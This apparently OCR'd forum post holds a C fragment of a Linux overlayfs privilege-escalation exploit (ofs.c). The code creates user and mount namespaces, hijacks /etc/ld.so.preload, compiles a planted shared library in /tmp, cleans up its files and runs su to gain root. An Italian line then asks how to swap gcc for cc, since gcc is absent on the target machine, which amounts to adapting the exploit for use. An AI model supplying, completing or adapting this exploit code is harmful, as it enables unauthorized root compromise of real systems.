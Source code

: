 ```
    int status, fd, lib;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}
            
```
devo modificare questo codice (gcc)
A questo codice (CC) perchè gcc non è presente
```
lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```
